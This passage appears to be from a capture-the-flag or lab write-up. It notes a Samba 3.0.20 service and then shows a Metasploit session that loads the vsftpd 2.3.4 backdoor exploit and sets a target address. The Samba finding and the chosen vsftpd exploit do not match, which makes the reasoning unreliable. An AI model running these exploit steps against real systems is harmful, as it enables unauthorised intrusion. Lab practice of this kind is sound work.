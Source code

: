 We can see that Samba is on the 3.0.20 version of #SMB.
We search for some CVE : 

We just have a gift :

![[Pasted image 20250207204943.png]]

There is a CVE and the CVE is make directly by #metasploit.
## 2. **Weaponization

We're going to use the `exploit/unix/ftp/vsftpd_234_backdoor` exploit of #Metasploit.

```BASH
[msf](Jobs:0 Agents:0) >> use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                       using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> set rhost 10.129.219.182
rhost => 10.129.219.182
```


For the gift :
